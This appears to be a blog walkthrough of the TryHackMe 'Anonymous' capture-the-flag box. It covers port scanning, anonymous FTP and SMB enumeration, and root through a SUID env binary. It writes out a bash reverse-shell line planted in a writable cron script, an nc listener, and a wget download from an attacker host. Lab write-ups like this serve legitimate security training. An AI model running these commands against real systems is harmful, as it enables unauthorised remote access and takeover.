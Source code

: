 ```yaml
---
layout: post
title: " Anonymous - TryHackMe"
date: 2020-07-13
excerpt: "Walkthrough for Anonymous on TryHackme"
tags: [Anonymous, TryHackMe, privilege escalation, script modification]
comments: false
---
```


Anonymous is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below is a walkthrough of the steps involved to achieve root on this box.

First, let's scan the box with nmap with **nmap -sC -sV -T4 [machine ip]**. The results of this scan are as shown below.

![Anonymous nmap](/assets/img/Anonymous1.png)

It appears that we have ftp (21) open with anonymous access allowed, ssh (22), and smb (139/445) open. 

This are a total of 4 open ports, the answer to **Question 1**. FTP is running on port 21, the answer to **Question 2**. Ports 139/445 are running smb, the answer to **Question 3**. 

Since we can see that ftp is open anonymously, let's login and take a look with **ftp [machine ip]**. When prompted for the username/password, use **anonymous** for both of them. Once logged in, we can run **ls** to list the directory contents.

![Anonymous ftp connect](/assets/img/Anonymous2.png)

Let's use **cd scripts** to get into the script directory and then type **ls** to list it's contents. Three files are present. Let's run **mget \*** to download these files to view them locally.

![Anonymous ftp scripts directory](/assets/img/Anonymous3.png)

Let's use **bye** to close the ftp session and then take a look at these files. Let's start with **cat clean.sh**. This appears to be a script that removes everything in the /tmp directory and then logs it to **/var/ftp/scripts/removed_files.log**.

![Anonymous cat clean.sh](/assets/img/Anonymous4.png)

Next, let's take a look at removed_files.log with **cat removed_files.log**. It doesn't appear that there's anything useful in this, as it is the same log entry repeated several times.

![Anonymous cat removed_files.log](/assets/img/Anonymous5.png)

The last file, which is viewed with **cat to_do.txt**, states that anonymous logins should be disabled because they aren't safe.

![Anonymous cat to_do.txt](/assets/img/Anonymous6.png)

This is likely a hint that anonymous access is available in multiple places. Let's try to enumerate the smb shares next with **smbclient -L \\\\\\\\[machine ip]\\\\**. This will return 3 shares as shown above.

![Anonymous list smb shares smbclient](/assets/img/Anonymous7.png)

The smb share **pics** is the answer to **Question 4**. Let's try to connect to pics anonymously with **smbclient \\\\\\\\[machine ip]\\\\pics -U ""**. We are also able to connect anonymously and after running **ls**, we see that there are 2 pictures in this folder. Let's grab them both with **mget \***.

![Anonymous smbclient anonymous](/assets/img/Anonymous8.png)

Let's take a look at these two pictures. There's nothing suspicious on the pictures themselves, as they are just pictures of corgis. However, .jpg/.jpeg files can be used for steganography. Let's see if there's any hidden files inside. I ran stegcracker for a few minutes on both of these pictures and was not able to crack the password or confirm anything was hidden inside.

Let's go back to enumeration using rpcclient. Let's run **rpcclient [machine ip] -U ""**. Once connected, let's run **enumdomusers** to get the users on this victim host (namelessone) followed by **queryuser 0x3eb** and **getdompwinfo**.

![Anonymous rpcclient](/assets/img/Anonymous9.png)

While useful info, unless we wanted to spend a long time brute forcing the password, there had to be a simpler way to get in. At this point, I logged back in anonymously to the ftp server and noticed that we have read/write/execute on **clean.sh**. I wonder what would happen if we put in a reverse shell to run inside that script? On our local machine, let's open the **clean.sh** file that we downloaded earlier and modify it before we reupload it. Let's add in **bash -i >& /dev/tcp/[your attacker ip]/8080 0>&1** and save the file.

![Anonymous modify clean.sh](/assets/img/Anonymous10.png)

Next, in another terminal window on our attacker pc, run **nc -nvlp 8080** to open a listener on port 8080 that you specified in the clean.sh file above.

![Anonymous nc listener](/assets/img/Anonymous11.png)

Next, let's reconnect with the anonymous ftp site, go into the scripts directory and upload our modified clean.sh file.

![Anonymous clean.sh upload](/assets/img/Anonymous12.png)

Now, we just wait for a connection, as that script appeared to be ran as a cron job. Within a couple of minutes, we now have a shell.

![Anonymous reverse shell](/assets/img/Anonymous13.png)

We are running as namelessone, and after running **pwd** we can see we are in that user's home directory. We can run **ls** and we will see the user.txt file in this directory. **cat user.txt** will get you the answer to **Question 5**.

![Anonymous user.txt](/assets/img/Anonymous14.png)

Let's upgrade our shell so we can run some other commands that require a TTY. Let's upgrade with **python -c 'import pty; pty.spawn("/bin/sh")'**. Attempting to run **sudo -l** requires a password, which we do not have for the user we currently have access to. Let's copy linpeas over to do some enumeration.

First, on our attacker pc, run **python3 -m http.server** in the directory that linepeas.sh is in. Next, on the victim, run **wget http://[attacker ip]:8000/linpeas.sh**, and it should save in namelessone's home directory. Next, run **chmod 777 linpeas.sh** to make the script executable.

![Anonymous wget linpeas.sh](/assets/img/Anonymous15.png)

Now lets run this with **./linpeas.sh**. While this puts out a lot of information, there is a SUID file that it notices, **/usr/bin/env**.

![Anonymous SUID](/assets/img/Anonymous16.png)

[GTFOBins](https://gtfobins.github.io/) is a great site to look up ways to exploit executables in Linux. env can be used for privilege escalation with **./env /bin/sh -p**. Now, if we run **whoami** we are the root user! We can now run **cd /root** followed by **ls**. root.txt is in this file, so let's run **cat root.txt** to get the root flag. This is the final challenge and the answer to **Question 6**.

![Anonymous root.txt](/assets/img/Anonymous17.png)
